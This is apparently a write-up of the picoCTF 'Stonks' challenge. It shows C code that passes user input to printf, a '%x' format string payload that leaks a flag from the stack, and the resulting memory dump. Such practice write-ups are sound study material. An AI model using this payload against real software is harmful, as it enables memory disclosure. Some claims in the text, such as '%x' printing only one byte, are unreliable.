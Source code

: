 # Stonks

Find CTF link [here](https://play.picoctf.org/practice/challenge/105?category=6&page=1).

For this CTF, we only have one C file to investigate. I assume that the fact that the source code itself is provided is a clue. This way, I can eliminate any options of buffer overflow, ROP, or return to LIBC. Let's take a look at the source code to find any smelly code.

In the function `int buy_stonks(Portfolio *p)` we can see the following code:
```c
.
.
.
.
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
.
.
.

// TODO: Figure out how to read token from file, for now just ask
printf(api_buf);
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
They ask for input and then simply print it out. This reminded me of a casual conversation I had with a friend, who mentioned that the "printf" function can be vulnerable. 

After a quick Google search, I found that it is possible to leak variable values from the stack using a "format string attack." For example, printing `%x` will only print the first byte on the stack, and `%x%x` will print the first two bytes and so on.

But what variable is so important to leak? You guessed it right - it's `api_buf`. Now, let's build our exploit as a Python script.

1. Navigate to the vulnerable location.
2. Inject the malicious format string `%x%x%x%x%x%x%x%x%x%x`.
3. Parse the little-endian output and verify if it looks like a flag.

The first output is:
```
b'\x9a\x7f=\x08\x04\xb0\x00\x80H\x9c?\x7f\x9b\xd8\x0f\xff\xff\xff\xf1\x9a}\x16\x0f\x7f\xa9\x11\x0f\x7f\x9b\xdcp\x9a~\x18\x05\x9a\x7f;\t\xa7\xf3\xd0ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3\xff\xef\x00}\xf7\xfdj\xf8\xf7\xfa\x94@\xdcl\xfe\x00\x10\xf7\xe3\x8c\xe9\xf7\xfa\xa0\xc0\xf7\xf9\xb5\xc0\xf7\xf9\xb0\x00\xff\xef\x1d\xf8\xf7\xe2\x96\x8d\xf7\xf9\xb5\xc0\x80H\xec\xaf\xfe\xf1\xe0@\xf7\xfb\xdf\t\x80K\x00\x0f\x7f\x9b\x00\x0f\x7f\x9b\xe2\x0f\xfe\xf1\xe3\x8f\x7f\xc3\xd5\x0f\x7f\x9c\x89\r\xc6\xcf\xe0\x0f\x7f\x9b\x00\x08\x04\xb0\x00\xff\xef\x1e8\x80H\xc8i\xa7\xd1`'
```
You can notice the flag in Littel Endian in the memory dump. `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3\xff\xef\x00}`
Converting to Big Endian is simple, you can check out my python code.

That's it, Thanks for reading.
